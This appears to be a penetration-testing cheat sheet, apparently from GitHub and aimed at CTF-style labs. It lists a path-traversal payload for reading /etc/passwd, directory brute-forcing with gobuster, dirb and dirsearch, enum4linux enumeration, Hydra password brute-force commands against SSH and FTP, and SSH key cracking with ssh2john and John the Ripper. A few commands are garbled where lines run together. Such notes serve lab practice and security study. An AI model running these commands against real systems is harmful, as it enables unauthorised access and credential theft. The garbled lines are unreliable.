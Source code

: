 # Web

## Source
View source files

## Robots
Open robots.txt

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Web path discovery


### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,js -u https://target -w /path/to/wordlist

```

## recursive
python3 dirsearch.py -e php,html,js -u https://target -r


enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```
# Create some private key
ssh-keygen -t rsa -b 4096# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash



python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash


Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c



